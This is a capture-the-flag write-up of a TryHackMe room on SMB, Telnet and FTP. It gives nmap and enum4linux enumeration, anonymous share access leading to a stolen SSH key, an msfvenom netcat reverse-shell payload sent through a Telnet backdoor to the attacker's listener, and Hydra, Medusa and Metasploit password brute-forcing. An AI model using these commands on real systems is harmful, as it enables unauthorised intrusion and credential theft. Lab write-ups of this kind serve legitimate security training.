

# NETWORK SERVICE

# Overview

| Field | Details |
| --- | --- |
| **Platform** | TryHackMe |
| **Room** | Network Services |
| **Difficulty** | Easy |
| **Services Covered** | SMB (139/445), Telnet (non-standard port), FTP (21) |
| **Goal** | Capture flags for each service via misconfiguration-based exploitation |

This room demonstrates attack paths against three of the most common network services found on both CTF boxes and real-world internal networks: **SMB**, **Telnet**, and **FTP**. Each section below follows the same structure — protocol theory, enumeration, exploitation, and extra tooling beyond what the original room asked for.

# Attack Chain (Visual)



---

# Part 1 — SMB (Server Message Block)

## Protocol Theory

SMB (**Server Message Block**) is a client-server protocol for sharing files, printers, and other resources over a network. It's a **response-request** protocol — meaning the client and server exchange multiple messages just to establish a session before any data moves. On Windows it runs natively; on Unix/Linux systems, the open-source **Samba** suite implements the same protocol for cross-platform compatibility.

| Detail | Value |
| --- | --- |
| Ports | TCP 139 (NetBIOS), TCP 445 (SMB over TCP direct) |
| Transport | TCP/IP |
| Unix implementation | Samba |


SMB protocol diagram

## Reconnaissance

```bash
nmap -sV -p139,445 <TARGET_IP>
```

Confirmed 3 open ports, with SMB running on **139/445**.


Nmap scan - open ports


SMB ports confirmed

### Nmap NSE Scripts for SMB (beyond basic port scan)

```bash
# OS & protocol discovery
nmap -p139,445 --script smb-os-discovery,smb-protocols,smb-security-mode <TARGET_IP>

# Enumerate shares and users
nmap -p139,445 --script smb-enum-shares,smb-enum-users <TARGET_IP>

# Check for known critical vulnerabilities
nmap -p139,445 --script smb-vuln* <TARGET_IP>
nmap -p445 --script smb-vuln-ms17-010 <TARGET_IP>   # EternalBlue
nmap -p445 --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version <TARGET_IP>  # SambaCry
```

Running the discovery/vuln scripts first (before any manual enum4linux work) means critical vulns like **EternalBlue (MS17-010)** or **SambaCry (CVE-2017-7494)** are flagged immediately — sometimes these alone are a direct path to RCE without needing credential-based access at all.

## Enumeration — enum4linux

**Enum4linux** enumerates SMB on both Windows and Samba targets.

```bash
enum4linux -a <TARGET_IP>
```

| Flag | Meaning |
| --- | --- |
| `-U` | Get userlist |
| `-M` | Get machine list |
| `-N` | Get namelist dump |
| `-S` | Get sharelist |
| `-P` | Get password policy info |
| `-G` | Get group and member list |
| `-a` | All of the above (full basic enumeration) |


enum4linux workgroup


Machine name discovered


Machine name continued


OS version discovered


OS version continued


Interesting share: profiles

| Finding | Value |
| --- | --- |
| Workgroup | WORKGROUP |
| Machine name | POLOSMB |
| OS version | 6.1 |
| Share of interest | `profiles` |

### Alternative / Modern Enumeration Tools

`enum4linux` is dated — these cover the same ground faster, or go further:

```bash
# enum4linux-ng - actively maintained rewrite, JSON output support
enum4linux-ng -A <TARGET_IP>

# CrackMapExec / NetExec - modern SMB swiss-army knife
nxc smb <TARGET_IP> --shares
nxc smb <TARGET_IP> -u '' -p '' --shares          # anonymous/null session check
nxc smb <TARGET_IP> -u users.txt -p 'Password123'  # credential spray

# smbmap - fast share permission overview
smbmap -H <TARGET_IP>

# rpcclient - manual RPC enumeration (deep-dive when scripts don't give enough)
rpcclient -U "" -N <TARGET_IP>
rpcclient$> enumdomusers
rpcclient$> querydominfo
```

## Exploitation — smbclient

**smbclient** is an ftp-like client for accessing SMB/CIFS shares.

```bash
smbclient //<TARGET_IP>/<SHARE> -U <user> -p 445
```

### Anonymous Access Check

```bash
smbclient //<TARGET_IP>/profiles -U Anonymous
```

No password supplied — access **granted** (share misconfigured for anonymous read).


Anonymous SMB access granted

Inside the share, a profile folder led to a user identity and an exposed SSH private key:


Profile folder - John Cactus


Profile folder contents


.ssh directory found


id_rsa key identified

| Step | Command |
| --- | --- |
| Download key | `get id_rsa` |
| Set correct permissions | `chmod 600 id_rsa` |
| SSH in with key | `ssh -i id_rsa <username>@<TARGET_IP>` |


Downloading id_rsa via get


chmod 600 applied


Connecting with the known username


SSH access via id_rsa, flag captured

**Flag:** `THM{smb_is_fun_eh?}`

---

# Part 2 — Telnet

## Protocol Theory

**Telnet** is a network protocol for remote, text-based, two-way interactive sessions with another machine.

- All Telnet traffic travels in **plaintext** — no encryption, no integrity protection. This is exactly why SSH replaced it almost everywhere.
- Syntax: `telnet <ip> <port>`


Telnet protocol

## Reconnaissance

A standard top-1000 nmap scan showed **0** open ports — Telnet here was deliberately hidden on a **non-standard port (8012)**, only visible with a full port scan:

```bash
nmap -p- <TARGET_IP>
```


Full port scan reveals hidden port


Top-1000 scan shows nothing

**Key lesson:** always run `-p-` (all 65535 ports) at least once per engagement — services hidden on non-standard ports are a deliberate (and common) evasion technique that a default top-1000 scan will miss entirely.

### Additional Telnet-Specific Nmap Scripts

```bash
nmap -p8012 --script telnet-brute <TARGET_IP>       # brute-force credentials
nmap -p8012 --script telnet-ntlm-info <TARGET_IP>   # leaks NTLM info on some Windows telnet services
nmap -p8012 -sV --version-intensity 9 <TARGET_IP>   # deeper banner/version fingerprinting
```

The banner returned on connection hinted at a backdoor and a possible username:


Backdoor banner with username hint

## Exploitation

**Shell types referenced:**

| Type | Description |
| --- | --- |
| Bind shell | The target opens a listener; the attacker connects **to** the target. |
| Reverse shell | The target connects **back** to a listener on the attacker's machine. |


Bind shell diagram


Reverse shell diagram

Connected to the service:

```bash
telnet <TARGET_IP> 8012
```

Welcome banner: `SKIDY'S BACKDOOR.`


Telnet backdoor banner

Typed input produced no visible output — needed to confirm whether commands were actually executing server-side before assuming the session was dead:


No output returned on input

### Confirming Blind Command Execution via ICMP

Started a packet capture on the attacker box to catch ICMP (ping) traffic:

```bash
sudo  tcpdump ip proto icmp -i tun0
```


tcpdump listener for ICMP

Sent a ping through the telnet session (prefixed with `.RUN` — the backdoor's command-execution trigger):

```
.RUN ping <LOCAL_THM_IP> -c 1
```

ICMP traffic arrived — confirming **blind command execution** even though no output is echoed back to the telnet client.


Ping received confirms RCE


ICMP capture confirmation

### Weaponizing with msfvenom

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=<LOCAL_TUN0_IP> lport=4444 R
```

| Flag | Meaning |
| --- | --- |
| `-p` | Payload |
| `lhost` | Attacker's IP |
| `lport` | Listener port |
| `R` | Output in raw format |

Generated payload begins with `mkfifo` — the same named-pipe reverse shell pattern used across this learning platform.


msfvenom payload generated

Started the matching listener:

```bash
nc -lvp 4444
```


Netcat listener running


Listener confirmation

Pasted the payload into the `.RUN`-prefixed telnet command — shell landed on the listener.

**Flag:** `THM{y0u_g0t_th3_t3ln3t_fl4g}`


flag.txt captured

---

# Part 3 — FTP (File Transfer Protocol)

## Protocol Theory

**FTP** is a standard protocol for transferring files between a client and server over a network, built on a **client-server** model with **separate control and data connections**.

| Detail | Value |
| --- | --- |
| Standard port | 21 |
| Connection modes | 2 (Active and Passive) |


FTP protocol diagram

## Reconnaissance

```bash
nmap -sV -p21 <TARGET_IP>
```

2 ports open; FTP on **21**, running **vsftpd**.


Nmap scan - 2 ports open


vsftpd version confirmed

### Additional FTP-Specific Nmap Scripts

```bash
nmap -p21 --script ftp-anon,ftp-syst,ftp-vuln*,ftp-bounce <TARGET_IP>
```

| Script | Purpose |
| --- | --- |
| `ftp-anon` | Checks if anonymous login is permitted |
| `ftp-syst` | Sends SYST command, often reveals server OS/software |
| `ftp-vuln*` | Checks known FTP daemon CVEs (e.g. vsftpd 2.3.4 backdoor) |
| `ftp-bounce` | Tests for legacy FTP bounce scanning vulnerability |

## Exploitation — Anonymous Login

```bash
ftp <TARGET_IP>
# username: anonymous
# password: (blank)
```

Login succeeded, revealing a publicly accessible file:


Anonymous FTP access


PUBLIC_NOTICE.txt found

The notice text leaked a likely username: **mike**.


Username candidate: mike

## Password Cracking — Hydra

**Hydra** is a parallelized login cracker supporting a wide range of protocols.

```bash
hydra -t 4 -l mike -P <wordlist> -vv <TARGET_IP> ftp 
```

| Flag | Meaning |
| --- | --- |
| `-t` | Number of parallel connection tasks |
| `-l` | Single login username |
| `-P` | Password wordlist file |
| `-vv` | Verbose mode |


Hydra brute-force in progress

Valid password recovered: `password`. Logged in with `mike:password`.


FTP login with cracked credentials

**Flag:** `THM{y0u_g0t_th3_ftp_fl4g}`


ftp.txt captured

### Alternative / Faster FTP Attack Tools

```bash
# Medusa - alternative parallel brute-forcer, sometimes faster on FTP
medusa -h <TARGET_IP> -u mike -P <wordlist> -M ftp

# Metasploit auxiliary brute module
msfconsole -q -x "use auxiliary/scanner/ftp/ftp_login; set RHOSTS <TARGET_IP>; set USERNAME mike; set PASS_FILE <wordlist>; run"

# Check default/weak credential lists before a full brute-force
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <TARGET_IP> ftp
```

---

# Key Takeaways

- **Full port scans matter** — the Telnet service here was invisible to a default top-1000 scan and only appeared with `-p-`. Never assume "no open ports" from a quick scan alone.
- **Anonymous/null access is still common** — both the SMB share and the FTP server allowed unauthenticated access; always test this explicitly before moving to credential attacks.
- **Public files leak usernames** — `PUBLIC_NOTICE.txt` on the FTP server and the `profiles` share on SMB both handed over usernames that directly enabled the next attack step. Treat every readable file as potential recon data, not just a curiosity.
- **SSH keys found on shares are gold** — an exposed `id_rsa` with no passphrase is equivalent to a password; `chmod 600` is required locally before OpenSSH will accept it.
- **Blind command execution still counts as RCE** — the Telnet backdoor gave no visible output, but confirming execution via an out-of-band channel (ICMP/tcpdump) proved it was live before committing to a reverse shell payload.
- **msfvenom + mkfifo-based reverse shells are a repeatable pattern** — the same `cmd/unix/reverse_netcat` payload and FIFO reverse shell structure shows up across SMB, Telnet, and the LazyAdmin/Ignite TryHackMe rooms. Worth memorizing as a default go-to.

# Tool Reference Table

| Tool | Service | Purpose |
| --- | --- | --- |
| `enum4linux` / `enum4linux-ng` | SMB | Full basic enumeration (users, shares, OS, policy) |
| `smbclient` | SMB | Interactive FTP-like access to shares |
| `smbmap` | SMB | Fast share permission overview |
| `nxc` (NetExec/CrackMapExec) | SMB | Modern mass enumeration, credential spraying, exec |
| `rpcclient` | SMB | Manual low-level RPC enumeration |
| `tcpdump` | Telnet (any) | Confirm blind command execution via packet capture |
| `msfvenom` | Telnet / any shell | Generate reverse/bind shell payloads |
| `netcat (nc)` | Any | Reverse shell listener |
| `ftp` client | FTP | Interactive FTP session (anonymous or authenticated) |
| `hydra` | FTP / SMB / Telnet | Parallelized credential brute-forcing |
| `medusa` | FTP | Alternative brute-forcer |
| Metasploit `ftp_login` | FTP | Scripted brute-force via auxiliary module |

# Nmap Cheat Sheet (All Three Services)

```bash
# Full TCP port discovery first - always
nmap -p- -T4 <TARGET_IP>

# SMB
nmap -p139,445 --script smb-os-discovery,smb-protocols,smb-security-mode,smb-enum-shares,smb-enum-users,smb-vuln* <TARGET_IP>

# Telnet (adjust port to whatever -p- found)
nmap -p<PORT> -sV --version-intensity 9 --script telnet-brute,telnet-ntlm-info <TARGET_IP>

# FTP
nmap -p21 -sV --script ftp-anon,ftp-syst,ftp-vuln*,ftp-bounce <TARGET_IP>
```

# References

- [enum4linux-ng (GitHub)](https://github.com/cddmp/enum4linux-ng)
- [NetExec (GitHub)](https://github.com/Pennyw0rth/NetExec)
- [Nmap NSE SMB scripts documentation](https://nmap.org/nsedoc/categories/smb.html)
- [Nmap NSE FTP scripts documentation](https://nmap.org/nsedoc/categories/ftp.html)